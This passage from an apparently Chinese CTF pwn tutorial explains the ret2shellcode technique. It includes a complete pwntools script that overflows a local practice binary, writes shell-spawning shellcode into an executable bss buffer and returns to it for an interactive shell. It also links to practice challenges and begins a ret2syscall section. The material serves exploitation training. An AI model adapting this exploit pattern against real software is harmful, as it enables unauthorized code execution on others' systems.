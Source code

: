 
通过 vmmap，我们可以看到 bss 段对应的段具有可执行权限

```text
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
```

那么这次我们就控制程序执行 shellcode，也就是读入 shellcode，然后控制程序执行 bss 段处的 shellcode。其中，相应的偏移计算类似于 ret2text 中的例子。

具体的 payload 如下

```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2shellcode")
p = elf.process()

#--------ret2shellcode--------#

offset = 112
shellcode = asm(shellcraft.sh())
buf2 = 0x0804A080

payload = flat(
    shellcode.ljust(offset, b"\x00"),
    buf2,
)

p.sendlineafter("No system for you this time !!!\n", payload)
p.interactive()
```

### 题目

- [sniperoj-pwn100-shellcode-x86-64](https://raw.githubusercontent.com/SniperOJ/CDN/master/pwn/shorter-shellcode-x86-64)

## ret2syscall

### 原理

ret2syscall，即控制程序执行系统调用，获取 shell。

### 例子

这里我们以 bamboofox 中的 ret2syscall 为例  

点击下载: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)
